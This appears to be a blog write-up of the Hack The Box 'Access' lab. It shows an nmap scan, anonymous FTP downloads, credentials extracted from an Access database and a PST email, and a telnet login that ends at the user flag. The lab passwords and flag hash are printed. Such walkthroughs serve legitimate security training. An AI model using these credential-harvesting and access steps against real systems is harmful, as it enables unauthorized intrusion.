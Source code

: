 ```yaml
---
title: Hack-the-box - Write-up - Access
description: 
categories: [Walkthroughs, HackTheBox]
tags: [windows,ftp,anonymous access]
---
```


|Machine|Release Date |Operating System|Difficulty|
--------|-------------|----------------|----------|
|Access | 29 Sep, 2018|Windows         |Easy      |

## About Access

Access is an **easy** difficulty machine, that highlights how machines associated with the physical security of an environment may not themselves be secure. Also highlighted is how accessible FTP/file shares can often lead to getting a foothold or lateral movement. It teaches techniques for identifying and exploiting saved credentials.

## Reconnaissance

### Port scanning
I'll start by running an Nmap service and version scan with the default scripts. This will help identify any open ports and provide information about the services running on them, giving us valuable targets for further exploration.
> Always save the Nmap output in a text file for future reference. This practice is invaluable, as repeatedly running Nmap can be time-consuming and unnecessary.
{: .prompt-tip }

```shell
┌──(frodo㉿kali)-[~/hack-the-box/access]
└─$ nmap -sC -sV -p- -Pn  --min-rate 10000 -oA nmap_report 10.129.243.223
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-04 23:11 IST
Nmap scan report for 10.129.243.223
Host is up (0.11s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
| ftp-syst: 
|_  SYST: Windows_NT
23/tcp open  telnet?
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: MegaCorp
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 200.40 seconds
```
Revewing the `Nmap` report, we are able to find 3 interesting ports that we can try to get our foothold-

|Interesting Port | Service | Version |
|-----------------|---------|---------|
|21/tcp           |ftp      |Microsoft ftpd |
|23/tcp             |telnet | NA    |
|80/tcp         | http | Microsoft-IIS/7.5

### FTP Anonymous Access

Anonymous login is allowed on the target.

```shell
┌──(frodo㉿kali)-[~/hack-the-box/access]
└─$ ftp ftp://anonymous:''@10.129.243.223:21
Connected to 10.129.243.223.
220 Microsoft FTP Service
331 Anonymous access allowed, send identity (e-mail name) as password.
230 User logged in.
Remote system type is Windows_NT.
200 Type set to I.
ftp> 
```
Inside the FTP, there were 2 folders found-
1. Backups
2. Engineer

Inside the Backups folder, we are able to find an access database file called **backup.mdb** and inside the `Engineer` folder, there is a `zip` file called **Access Control.zip**.

We are going to download both of these files locally to our attacker machine foro further analysis.

```shell
ftp> get backup.mdb
local: backup.mdb remote: backup.mdb
200 PORT command successful.
125 Data connection already open; Transfer starting.
100% |****************************************|  5520 KiB  857.28 KiB/s    00:00 ETA
226 Transfer complete.
5652480 bytes received in 00:06 (857.27 KiB/s)
```

```shell
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-24-18  12:16AM                10870 Access Control.zip
226 Transfer complete.
ftp> get "Access Control.zip"
local: Access Control.zip remote: Access Control.zip
200 PORT command successful.
125 Data connection already open; Transfer starting.
100% |****************************************| 10870       33.14 KiB/s    00:00 ETA
226 Transfer complete.
10870 bytes received in 00:00 (33.09 KiB/s)
```

The zip file is password protected and we do not know the password yet, so we will start with the `backup.mdb` file, and for that, we need `mdbtools` installed on our attacker machine. 

```shell
sudo apt install mdbtools
```

> A `.mdb` file is a Microsoft Access database file that was the default file format for Access versions up to 2003. MDB stands for Microsoft Database. 
{: .prompt-info}

There are lots of tables inside the databases, and not everything looks interesting, so we are going to narrow down our focus to user tables.

```shell
┌──(frodo㉿kali)-[~/hack-the-box/access]
└─$ mdb-tables -1  backup.mdb |grep user   
auth_user
auth_user_groups
auth_user_user_permissions
userinfo_attarea
```

Out of all, `auth_user` looks the most interesting. Maybe it stores the user authentication information.

Exporting the data using `mdb-export`, we found the credentials for 4 users.

```shell
┌──(frodo㉿kali)-[~/hack-the-box/access]
└─$ mdb-export backup.mdb auth_user 
id,username,password,Status,last_login,RoleID,Remark
25,"admin","admin",1,"08/23/18 21:11:47",26,
27,"engineer","access4u@security",1,"08/23/18 21:13:36",26,
28,"backup_admin","admin",1,"08/23/18 21:14:02",26,
```

Using the password for `engineer`, which is `access4u@security`, I was able to extract the zip file, and there was only 1 file found inside called `Access Control.pst`.

> A PST file, or Personal Storage Table file, is a proprietary file format used by Microsoft to store items like emails, contacts, and calendar events: 
{: .prompt-info}

To ead the emails inside of the `.pst` file, there are lots of options, but we are goign to go with a lighweight solution. `readpst` seems to be the best one. Let's install it.

```shell
sudo apt install readpst
```
We are able to find 2 email.

```shell
──(frodo㉿kali)-[~/hack-the-box/access]
└─$ readpst Access\ Control.pst   
Opening PST file and indexes...
Processing Folder "Deleted Items"
	"Access Control" - 2 items done, 0 items skipped.
```

Let's look at the email 

```shell
┌──(frodo㉿kali)-[~/hack-the-box/access]
└─$ cat Access\ Control.mbox 
From "john@megacorp.com" Fri Aug 24 05:14:07 2018
Status: RO
From: john@megacorp.com <john@megacorp.com>
Subject: MegaCorp Access Control System "security" account
To: 'security@accesscontrolsystems.com'
Date: Thu, 23 Aug 2018 23:44:07 +0000
MIME-Version: 1.0
Content-Type: multipart/mixed;
	boundary="--boundary-LibPST-iamunique-1651771506_-_-"


----boundary-LibPST-iamunique-1651771506_-_-
Content-Type: multipart/alternative;
	boundary="alt---boundary-LibPST-iamunique-1651771506_-_-"

--alt---boundary-LibPST-iamunique-1651771506_-_-
Content-Type: text/plain; charset="utf-8"

Hi there,

 

The password for the “security” account has been changed to 4Cc3ssC0ntr0ller.  Please ensure this is passed on to your engineers.

 

Regards,

John
```

It looks like password for one of the accounts called `security` was changed to `4Cc3ssC0ntr0ller`.


## Telnet

Let's `telnet` to the target machine with the `security` credentials and try to get a shell.

```shell       
┌──(frodo㉿kali)-[~/hack-the-box/access]
└─$ telnet 10.129.243.223
Trying 10.129.243.223...
Connected to 10.129.243.223.
Escape character is '^]'.
Welcome to Microsoft Telnet Service 

login: security
password: 

*===============================================================
Microsoft Telnet Server.
*===============================================================
C:\Users\security>cd Desktop

C:\Users\security\Desktop>type user.txt
c82f427b80a0f0ad1fb46932d1531b45
```











